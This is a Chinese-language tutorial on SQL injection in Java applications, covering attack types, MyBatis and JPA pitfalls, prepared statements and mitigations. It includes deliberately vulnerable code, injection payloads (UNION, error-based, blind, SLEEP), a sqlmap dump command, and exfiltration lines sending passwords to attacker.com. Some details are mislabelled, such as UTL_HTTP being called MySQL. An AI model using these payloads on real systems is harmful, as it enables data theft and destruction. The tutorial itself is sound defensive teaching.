

2017 年，Equifax 数据泄露事件震惊了整个安全圈。1.47 亿用户的敏感信息外泄，根源是一个 Apache Struts 框架的已知漏洞。然而，这只是冰山一角。在大多数数据泄露事件中，最常见的根因不是某个罕见的安全漏洞，而是 SQL 注入——这个在 1998 年就被首次公开讨论的「古老」漏洞，至今仍是 Web 应用安全的第一杀手。

根据 OWASP 的统计数据，SQL 注入在 Web 应用漏洞中的检出率从未低于前五。问题的根源不是我们不知道 SQL 注入的存在，而是**预编译语句用错了地方、ORM 框架被错误使用、安全意识在日复一日的「快速交付」中被遗忘**。

## 一、SQL 注入的原理

### 1.1 核心问题：用户输入被当作 SQL 执行

SQL 注入的本质，是应用程序将用户输入的内容直接拼接到 SQL 语句中，执行时用户输入被当作 SQL 代码的一部分。

**一个典型的漏洞场景**：

```java title="危险的用户查询实现"
@RestController
public class UserController {
    
    @Autowired
    private DataSource dataSource;
    
    @GetMapping("/user/search")
    public List<User> searchUsers(@RequestParam String name) throws SQLException {
        // 直接拼接用户输入到 SQL
        String sql = "SELECT * FROM users WHERE name = '" + name + "'";
        
        Connection conn = dataSource.getConnection();
        Statement stmt = conn.createStatement();
        ResultSet rs = stmt.executeQuery(sql);  // SQL 注入点
        
        // 遍历结果
        List<User> users = new ArrayList<>();
        while (rs.next()) {
            User user = new User();
            user.setId(rs.getLong("id"));
            user.setName(rs.getString("name"));
            user.setEmail(rs.getString("email"));
            users.add(user);
        }
        
        return users;
    }
}
```

**当用户输入 `'; DROP TABLE users; --` 时**：

生成的 SQL 变成：

```sql
SELECT * FROM users WHERE name = ''; DROP TABLE users; --'
```

`--` 后面的内容被注释掉，实际执行的是两条 SQL：第一条查询无结果，第二条直接删除整个用户表。

### 1.2 SQL 注入的分类

SQL 注入并非只有一种形态。根据攻击手法和效果，可以分为以下几类：



## 二、带内注入（In-band Injection）

### 2.1 Union 注入

Union 注入利用 `UNION` 关键字，将恶意查询与原查询结果合并。

**攻击示例**：

```java title="漏洞代码"
String sql = "SELECT name, email FROM users WHERE id = " + userId;
```

**攻击载荷**：

```
1 UNION SELECT password_hash, 1 FROM admin_users WHERE '1'='1
```

**执行结果**：

```sql
SELECT name, email FROM users WHERE id = 1 UNION SELECT password_hash, 1 FROM admin_users WHERE '1'='1'
```

攻击者通过 UNION 注入，将管理员密码哈希与正常结果一起返回。

### 2.2 错误注入（Error-based）

通过构造特殊输入，触发数据库错误，从错误信息中提取数据。

**攻击示例**：

```
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT password FROM admin LIMIT 1))) --
```

**触发错误**：

```
XPATH syntax error: '~admin_password_hash'
```

:::warning 现实威胁
错误信息泄露曾是 SQL 注入的主要利用方式。随着安全意识的提升，现代应用通常会关闭详细错误信息，但不当的配置仍可能泄露敏感数据。
:::

### 2.3 布尔盲注（Boolean-based Blind）

当应用不会返回具体数据或错误信息，但会返回不同的响应状态（成功/失败）时，可以使用布尔盲注。

**攻击原理**：

```java title="布尔盲注判断逻辑"
@GetMapping("/user/exists")
public boolean userExists(@RequestParam String username) {
    // 只返回 true 或 false，无法直接获取数据
    String sql = "SELECT COUNT(*) FROM users WHERE username = '" + username + "'";
    // ...
}
```

**攻击载荷**：

```
' AND ASCII(SUBSTRING((SELECT password FROM admin LIMIT 1), 1, 1)) > 64 --
```

通过二分查找，攻击者可以逐字符猜测密码。

## 三、推理注入（Inference）

### 3.1 Boolean-based 注入

与布尔盲注类似，但更系统化地利用真假响应推断数据。

**判断逻辑示例**：

```java title="漏洞代码示例"
String sql = "SELECT * FROM products WHERE name LIKE '%" + keyword + "%'";
if (executeQuery(sql).size() > 0) {
    return "found";
} else {
    return "not found";
}
```

**攻击技术**：

```
' AND (SELECT COUNT(*) FROM users) > 0 --
```

通过响应差异判断数据库中的数据情况。

### 3.2 Time-based 注入

利用数据库的延时函数（如 `SLEEP()`），根据响应时间推断数据。

**攻击载荷**：

```
' AND IF(LENGTH(password) > 8, SLEEP(5), 0) --
```

如果密码长度大于 8，数据库将延迟 5 秒返回。

**MySQL 延时函数**：

```sql
-- 延时 5 秒
SELECT SLEEP(5);

-- 基于条件延时
SELECT IF(1=1, SLEEP(5), 0);

-- 延时注入：逐字符猜解
SELECT IF(ASCII(SUBSTRING(password,1,1))=65, SLEEP(5), 0) FROM users;
```

## 四、带外注入（Out-of-band）

### 4.1 DNS 通道

当目标服务器有网络访问权限时，可以通过 DNS 查询将数据带出。

**MySQL UTL_HTTP 请求**：

```sql
SELECT UTL_HTTP.request('http://attacker.com/data=' || password) 
FROM admin WHERE username='admin';
```

### 4.2 HTTP 通道

利用 XML Parser 的外部实体或 HTTP 函数，将数据发送到外部服务器。

```sql
-- PostgreSQL
COPY (SELECT password) TO PROGRAM 'curl http://attacker.com -d @-';

-- Oracle
SELECT UTL_HTTP.request('http://attacker.com/' || (SELECT password FROM admin)) FROM dual;
```

## 五、ORM 框架的防护作用与局限

### 5.1 ORM 不是银弹

很多人认为使用 Hibernate、MyBatis 等 ORM 框架就万事大吉了。实际上，ORM 框架只是**降低了 SQL 注入的风险**，并不能完全消除。

### 5.2 MyBatis：`#{}` vs `${}`

这是 MyBatis 使用中最常见的安全问题。

| 语法 | 类型 | 安全性 | 说明 |
|------|------|--------|------|
| `#{}` | 参数绑定 | **安全** | 使用预编译 |
| `${}` | 字符串替换 | **危险** | 直接拼接到 SQL |

```java title="MyBatis Mapper 示例"
public interface UserMapper {
    
    // 安全：使用 #{} 参数绑定
    @Select("SELECT * FROM users WHERE name = #{name}")
    User findByName(@Param("name") String name);
    
    // 危险：使用 ${} 直接替换
    @Select("SELECT * FROM users WHERE name = '${name}'")
    User findByNameUnsafe(@Param("name") String name);
    
    // 危险：ORDER BY 子句常被错误实现
    @Select("<script>" +
            "SELECT * FROM users " +
            "ORDER BY ${sortColumn} ${sortDirection}" +
            "</script>")
    List<User> findAll(@Param("sortColumn") String sortColumn, 
                       @Param("sortDirection") String sortDirection);
}
```

**`${}` 的安全使用场景**：

`${}` 在某些场景下必须使用，例如动态表名、列名：

```java title="安全使用 ${} 的场景"
public interface DynamicQueryMapper {
    
    // 动态表名：只能使用 ${}
    @Select("SELECT COUNT(*) FROM ${tableName}")
    Long countTable(@Param("tableName") String tableName);
    
    // 安全做法：参数白名单验证
    default String validateTableName(String tableName) {
        Set<String> allowedTables = Set.of("users", "orders", "products");
        if (!allowedTables.contains(tableName)) {
            throw new IllegalArgumentException("Invalid table name");
        }
        return tableName;
    }
}
```

### 5.3 JPA/Hibernate 的安全使用

```java title="JPA 安全查询示例"
@Service
public class UserService {
    
    @Autowired
    private EntityManager entityManager;
    
    /**
     * 安全：使用参数绑定
     */
    public User findByName(String name) {
        return entityManager
            .createQuery("SELECT u FROM User u WHERE u.name = :name", User.class)
            .setParameter("name", name)  // 参数绑定，安全
            .getResultList()
            .stream()
            .findFirst()
            .orElse(null);
    }
    
    /**
     * 危险：字符串拼接
     */
    public User findByNameUnsafe(String name) {
        return entityManager
            .createQuery("SELECT u FROM User u WHERE u.name = '" + name + "'")  // 危险！
            .getResultList()
            .stream()
            .findFirst()
            .orElse(null);
    }
}
```

## 六、预编译语句的正确使用

### 6.1 Java JDBC 预编译

```java title="安全的数据访问层实现"
@Service
public class UserDao {
    
    @Autowired
    private DataSource dataSource;
    
    /**
     * 使用 PreparedStatement 实现安全查询
     */
    public User findByName(String name) throws SQLException {
        String sql = "SELECT id, name, email, created_at FROM users WHERE name = ?";
        
        try (Connection conn = dataSource.getConnection();
             PreparedStatement stmt = conn.prepareStatement(sql)) {
            
            stmt.setString(1, name);  // 参数绑定
            ResultSet rs = stmt.executeQuery();
            
            if (rs.next()) {
                User user = new User();
                user.setId(rs.getLong("id"));
                user.setName(rs.getString("name"));
                user.setEmail(rs.getString("email"));
                user.setCreatedAt(rs.getTimestamp("created_at").toLocalDateTime());
                return user;
            }
        }
        return null;
    }
    
    /**
     * 安全插入：所有用户输入通过参数绑定
     */
    public void insertUser(User user) throws SQLException {
        String sql = "INSERT INTO users (name, email, password_hash, created_at) " +
                      "VALUES (?, ?, ?, ?)";
        
        try (Connection conn = dataSource.getConnection();
             PreparedStatement stmt = conn.prepareStatement(sql)) {
            
            stmt.setString(1, user.getName());
            stmt.setString(2, user.getEmail());
            stmt.setString(3, hashPassword(user.getPassword()));
            stmt.setTimestamp(4, Timestamp.valueOf(LocalDateTime.now()));
            
            stmt.executeUpdate();
        }
    }
}
```

### 6.2 预编译的局限

预编译语句虽然强大，但并非万能。以下场景需要注意：

| 场景 | 预编译方案 | 风险点 |
|------|-----------|--------|
| LIKE 查询 | 使用参数绑定，但需处理 `%` | `#{pattern}` 会被当作字面量，`%` 需要手动拼接 |
| IN 查询 | 使用 `IN (?)` + 动态参数数量 | 不能直接用单个 `?` 绑定列表 |
| 动态列/表名 | 预编译无法处理 | 需要白名单验证 |

```java title="安全实现示例"
@Service
public class SearchService {
    
    /**
     * 安全处理 LIKE 查询
     */
    public List<Product> searchProducts(String keyword) {
        String sql = "SELECT * FROM products WHERE name LIKE ? OR description LIKE ?";
        
        // 需要手动添加通配符，而非直接拼接用户输入
        String likePattern = "%" + sanitizeForLike(keyword) + "%";
        
        return jdbcTemplate.query(sql, 
            (rs, rowNum) -> mapProduct(rs),
            likePattern, likePattern);
    }
    
    /**
     * LIKE 特殊字符转义
     */
    private String sanitizeForLike(String input) {
        return input
            .replace("\\", "\\\\")
            .replace("%", "\\%")
            .replace("_", "\\_");
    }
    
    /**
     * 安全处理 IN 查询
     */
    public List<User> findUsersByIds(List<Long> ids) {
        if (ids == null || ids.isEmpty()) {
            return Collections.emptyList();
        }
        
        // 动态构建占位符
        String placeholders = ids.stream()
            .map(id -> "?")
            .collect(Collectors.joining(","));
        
        String sql = "SELECT * FROM users WHERE id IN (" + placeholders + ")";
        
        // 使用JdbcTemplate 的可变参数方法
        return jdbcTemplate.query(sql, ids.toArray(), (rs, rowNum) -> mapUser(rs));
    }
}
```

## 七、输入验证与纵深防御

### 7.1 白名单输入验证

无论是否使用预编译，输入验证都是重要的纵深防御。

```java title="输入验证示例"
@Service
public class ValidationService {
    
    /**
     * 用户名白名单验证：只允许字母、数字、下划线
     */
    public boolean isValidUsername(String username) {
        if (username == null || username.isEmpty()) {
            return false;
        }
        // 白名单正则
        return username.matches("^[a-zA-Z0-9_]{3,20}$");
    }
    
    /**
     * 邮箱格式验证
     */
    public boolean isValidEmail(String email) {
        if (email == null || email.isEmpty()) {
            return false;
        }
        // RFC 5322 简化版
        return email.matches("^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\.[a-zA-Z]{2,}$");
    }
    
    /**
     * ID 类型参数验证
     */
    public Optional<Long> parseAndValidateId(String idStr) {
        try {
            long id = Long.parseLong(idStr);
            if (id > 0 && id < Long.MAX_VALUE) {
                return Optional.of(id);
            }
        } catch (NumberFormatException e) {
            // 日志记录异常
        }
        return Optional.empty();
    }
}
```

### 7.2 数据库层防护

```sql title="数据库层安全配置"
-- 限制应用账号权限：应用账号不应有 DBA 权限
GRANT SELECT, INSERT, UPDATE, DELETE ON app_db.* TO 'app_user'@'%';

-- 禁止执行危险操作
REVOKE DROP, ALTER, CREATE ON app_db.* FROM 'app_user'@'%';

-- 启用 SQL_MODE 防止异常输入
SET GLOBAL sql_mode = 'STRICT_TRANS_TABLES,NO_ENGINE_SUBSTITUTION';

-- 限制查询时间，防止 DoS
SET GLOBAL max_execution_time = 30000;  -- 30 秒
```

## 八、真实案例分析

### 案例：某电商平台 SQL 注入漏洞

**漏洞发现**：

安全研究员发现该平台的商品搜索接口存在 SQL 注入漏洞。攻击者可以通过修改搜索参数获取任意数据。

**漏洞根因**：

```java title="原始漏洞代码"
@GetMapping("/product/search")
public List<Product> search(@RequestParam String keyword) {
    // 直接拼接用户输入
    String sql = "SELECT * FROM products WHERE name LIKE '%" + keyword + "%'";
    return jdbcTemplate.query(sql, (rs, rowNum) -> mapProduct(rs));
}
```

**漏洞利用**：

攻击者使用 sqlmap 工具自动化注入：

```bash
sqlmap -u "https://shop.example.com/product/search?keyword=test" \
       --dbs  # 枚举数据库
       --tables -D shop_db  # 枚举表
       --columns -D shop_db -T users  # 枚举列
       --dump -D shop_db -T users  # 导出数据
```

**修复方案**：

```java title="修复后代码"
@GetMapping("/product/search")
public List<Product> search(@RequestParam String keyword) {
    // 白名单验证
    if (!isValidSearchKeyword(keyword)) {
        throw new IllegalArgumentException("Invalid search keyword");
    }
    
    // 使用参数绑定
    String sql = "SELECT * FROM products WHERE name LIKE ?";
    String pattern = "%" + sanitizeForLike(keyword) + "%";
    
    return jdbcTemplate.query(sql, (rs, rowNum) -> mapProduct(rs), pattern);
}
```

:::tip 教训总结
这个案例的教训是：SQL 注入漏洞往往不是因为不知道预编译，而是因为：
1. 快速迭代中「先跑通再优化」的心态
2. 测试用例没有覆盖边界情况
3. 代码审查时没有关注安全

将 SAST 工具集成到 CI/CD，可以有效防止这类漏洞进入生产环境。
:::

## 思考题

**问题 1**：某系统使用 MyBatis-Plus 作为 ORM 框架，开发者写了如下代码。请分析这段代码是否存在 SQL 注入风险？如果有，请指出问题并给出修复方案。

```java
@Select("SELECT * FROM orders WHERE status = ${status} AND " +
       "create_time BETWEEN '${startTime}' AND '${endTime}'")
List<Order> findOrders(@Param("status") String status,
                       @Param("startTime") String startTime,
                       @Param("endTime") String endTime);
```

<details>
<summary>参考答案</summary>

**问题分析**：

这段代码存在严重的 SQL 注入风险：

1. **`${status}` 问题**：`${}` 是字符串替换，即使 `status` 是数字类型，MyBatis-Plus 也会直接替换，可能导致类型问题和注入风险
2. **`'${startTime}'` 和 `'${endTime}'` 问题**：直接拼接时间字符串，MyBatis 会将 `'${...}'` 当作字符串替换，如果时间格式为 `'2024-01-01'`，会导致注入

**攻击示例**：

```
status=1 AND 1=1 --
startTime=' OR '1'='1
endTime=' OR '1'='1
```

生成的 SQL：

```sql
SELECT * FROM orders WHERE status = 1 AND 1=1 -- AND create_time BETWEEN '' OR '1'='1' AND '' OR '1'='1'
```

攻击者可以通过修改参数绕过条件，获取全部订单数据。

**修复方案**：

```java
// 方案一：使用 #{} 参数绑定（推荐）
@Select("SELECT * FROM orders WHERE status = #{status} AND " +
       "create_time BETWEEN #{startTime} AND #{endTime}")
List<Order> findOrders(@Param("status") String status,
                       @Param("startTime") LocalDateTime startTime,
                       @Param("endTime") LocalDateTime endTime);

// 方案二：必须使用动态 SQL 时，添加白名单验证
@Select("<script>" +
        "SELECT * FROM orders WHERE status = #{status} " +
        "AND create_time BETWEEN #{startTime} AND #{endTime}" +
        "<if test='validStatuses.contains(status)'>" +
        "AND audit_status IN (${validStatusesStr})" +
        "</if>" +
        "</script>")
List<Order> findOrdersWithAudit(@Param("status") String status,
                                @Param("startTime") LocalDateTime startTime,
                                @Param("endTime") LocalDateTime endTime,
                                @Param("validStatuses") Set<String> validStatuses);
```

**最佳实践**：
1. 永远不要使用 `${}` 拼接用户输入
2. 如果必须使用 `${}`，必须进行严格的参数验证
3. 在 CI/CD 中集成 MyBatis 扫描工具，检测危险的 `${}` 使用
</details>

**问题 2**：某遗留系统使用了大量动态 SQL，直接修改为预编译语句工作量巨大。在过渡期间，有哪些可以快速实施的缓解措施来降低 SQL 注入风险？

<details>
<summary>参考答案</summary>

**快速缓解措施**（按实施难度排序）：

**Level 1：立即可做（数小时内）**

1. **数据库账号权限收紧**
   - 应用账号去掉 DBA 权限
   - 限制 `DROP`、`ALTER` 等危险操作权限
   - 只授予应用需要的最小权限

2. **WAF 部署**
   - 配置 SQL 注入检测规则
   - 启用实时告警
   - 对高危请求进行阻断

3. **应用层输入过滤**
   - 部署全局 SQL 注入过滤器
   - 过滤常见注入关键字：`'`, `"`, `--`, `;`, `UNION`, `EXEC`, `SLEEP`
   - 使用正则过滤危险模式

**Level 2：短期措施（数天内）**

4. **SQL 审计日志**
   - 记录所有 SQL 执行
   - 标记异常查询模式
   - 实时监控异常

5. **数据库防火墙**
   - 商业数据库防火墙（如 Imperva）
   - 或使用开源方案（如 GreenSQL）

6. **关键接口临时加护**
   - 对登录、查询等高风险接口临时增加额外验证
   - 增加请求频率限制

**Level 3：中期措施（数周内）**

7. **分阶段改造**
   - 按风险等级排序现有 SQL
   - 先改高风险接口（登录、支付、数据查询）
   - 引入 MyBatis/ JPA，逐步替换

8. **引入安全框架**
   - 使用 Hibernate Validator 做输入验证
   - 引入 SQL 审计框架

**Level 4：长期方案**

9. **完全迁移到预编译**
   - 建立技术债务清单
   - 制定迁移计划
   - 持续重构

10. **建立安全开发规范**
    - 禁止使用 `${}`
    - 代码审查中加入安全检查
    - SAST 工具集成

**关键提醒**：
- 这些措施只是缓解，不能完全替代预编译
- 尽快制定从预编译迁移计划
- 定期评估风险，确保在可接受范围内
</details>
